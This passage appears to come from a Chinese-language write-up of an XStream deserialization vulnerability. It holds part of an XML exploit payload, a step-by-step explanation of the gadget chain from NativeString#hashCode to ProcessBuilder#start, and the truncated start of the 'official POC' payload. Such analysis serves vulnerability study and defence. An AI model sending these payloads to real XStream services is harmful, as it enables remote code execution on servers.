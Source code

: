 ```plain
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>

```

简单解释下调用链：

```plain
# 1. XStream 处理Map类型 去调用
jdk.nashorn.internal.objects.NativeString#hashCode
	# 2. hashCode执行了this.value.toString()，将其中value设置为Base64Data
	com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data#toString
		# 3. Base64Data.toString执行了this.dataHandler.getDataSource().getInputStream()，指定其中属性dataHandler为javax.activation.DataHandler
		javax.activation.DataHandler#getDataSource
			# 4. DataHandler.getDataSource()返回属性类型为DataSource，该属性 置为XmlDataSource
			com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource#getInputStream
				# 5. XmlDataSource 有个InputStream的属性，为getInputStream返回值，设置为CipherInputStream。
				# 回到步骤3，执行完getInputStream之后，执行了readFrom(is)，实际调用is.read
				javax.crypto.CipherInputStream#read -> getMoreData
					# 6. CipherInputStream.read调用this.cipher.update()，其中指定cipher为NullCipher
					javax.crypto.NullCipher#update -> chooseFirstProvider
						# 7. NullCipher.update执行了父类的方法Cipher.chooseFirstProvider，继续执行了this.serviceIterator.hasNext(),其中serviceIterator 置为FilterIterator
						javax.imageio.spi.FilterIterator#next					
							# 8. FilterIterator.next执行了filter.filter()，其中filter为属性，置该属性为ContainsFilter实例
							javax.imageio.ImageIO.ContainsFilter#filter
								# 9. ContainsFilter.filter执行了method.invoke(elt)，其中method为类属性可控，elt为参数，为iter的next()值
								ProcessBuilder#start
```

### [](#官网的POC "官网的POC")官网的POC

```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
```